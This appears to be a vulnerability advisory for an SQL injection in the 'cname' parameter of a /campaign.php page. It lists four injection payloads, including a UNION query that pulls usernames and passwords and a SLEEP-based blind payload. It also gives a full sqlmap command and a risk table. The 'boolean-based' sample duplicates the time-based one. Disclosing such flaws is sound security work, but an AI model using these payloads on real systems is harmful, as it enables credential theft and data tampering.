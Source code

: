 ### 📝 Sample Payloads

#### 1. **Boolean-Based Blind SQL Injection**
```bash
cname=1111' AND (SELECT 4818 FROM (SELECT(SLEEP(5)))TWoD) AND 'VRXZ'='VRXZ&oname=11111&date=2024-12-12&time=11:11&location=1111111
```

#### 2. **Error-Based SQL Injection**
```bash
cname=example' OR 1=1-- &oname=11111&date=2024-12-12&time=11:11&location=1111111
```

#### 3. **Time-Based Blind SQL Injection**
```bash
cname=1111' AND (SELECT 4818 FROM (SELECT(SLEEP(5)))TWoD) AND 'VRXZ'='VRXZ&oname=11111&date=2024-12-12&time=11:11&location=1111111
```

#### 4. **UNION Query SQL Injection**
```bash
cname=1111' UNION ALL SELECT NULL, CONCAT(username, ':', password), NULL, NULL FROM users-- &oname=11111&date=2024-12-12&time=11:11&location=1111111
```

### 🔧 Exploitation Steps Using sqlmap

1. **Identify the Vulnerable Parameter:**
   - The `cname` parameter in the `/campaign.php` file is susceptible to SQL Injection.

2. **Execute the Attack with sqlmap:**

    ```bash
    sqlmap -u "localhost:8080/campaign.php" --data="cname=1111&oname=11111&date=2024-12-12&time=11:11&location=1111111" --batch --level=5 --risk=3 --random-agent --tamper=space2comment --dbms=mysql
    ```

3. **Observation:**
   - The injected payload causes a delay (`SLEEP(5)`), indicating successful exploitation.

### 📸 Execution Evidence

<img width="1372" alt="image" src="https://github.com/user-attachments/assets/a72716d4-5a60-4f9e-a518-0e297a2175c2" />


---

## ⚠️ Risk Assessment

| **Risk Category**  | **Description**                                                                              |
|--------------------|----------------------------------------------------------------------------------------------|
| **Confidentiality**| Attackers could extract sensitive data from the database.                                    |
| **Integrity**      | Possibility of data tampering, unauthorized modifications, or deletions.                     |
| **Availability**   | Malicious queries or data corruption could lead to service interruptions or downtime.        |
| **Overall Severity** | **High** – Requires immediate attention due to ease of exploitation (no login needed).      |

---
